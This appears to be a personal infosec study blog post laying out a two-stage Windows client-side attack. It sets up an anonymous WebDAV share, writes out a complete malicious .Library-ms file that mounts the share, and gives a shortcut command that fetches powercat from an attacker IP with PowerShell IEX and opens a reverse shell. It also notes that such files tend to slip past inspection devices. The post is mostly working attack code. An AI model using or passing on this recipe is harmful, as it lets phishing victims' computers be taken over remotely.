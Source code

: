 ```yaml
---
layout: post
title: Windows Library Files
titledate: 09/01/23
tags: ["infosec","offsec"]
---
```


## Windows Library Files

First we create a 2 stage client side attack

Windows library file connecting to a _WebDAV_

When the victim receives a  _.Library-ms_ file and double clicks it the share will be mounted and appear as a regular directory

Inside we can put a .lnk  shortcut that  when clicked executes a Powershell reverse shell

<h3>Note most inspection devices may filter or catch malicious lnk files, but lib-ms files can go unnoticed</h3>

First we setup a WebDAV share

    $ pip3 install wsgidav
    $ mkdir /home/kali/webdav
    $ touch /home/kali/webdav/test.txt
    $/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Next we connect to our windows computer and create a _config.Library-ms_ file

<h4>craft Library-ms</h4>
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    </libraryDescription>
```

Now we add 2 tags inside the Library tag
```xml
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>    
```

isLibraryPinned pins the library to the nav panel in windows explorer
```xml
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
'
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
```
WebDAV share info
```xml
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
```
final WebDAV
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
    </libraryDescription>
```
<h4>execution</h4>

Now when we execute our lib-ms file we see our created test.txt file mounted in windows explorer

<h3>Note: to avoid issues with this attack, reset the file to final WebDAV</h3>

### Reverse Shell

Next we create a shortcut on the Desktop for the user and point it to a powershell reverse shell

    powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
    powercat -c 192.168.119.3 -p 4444 -e powershell"

Now with our webDAV server running, our python server hosting powercat and a netcat listener listening ^^:> our webDAV share will be mounted and a user can click our shortcut to retrieve the powercat script to enable our reverse shell to connect
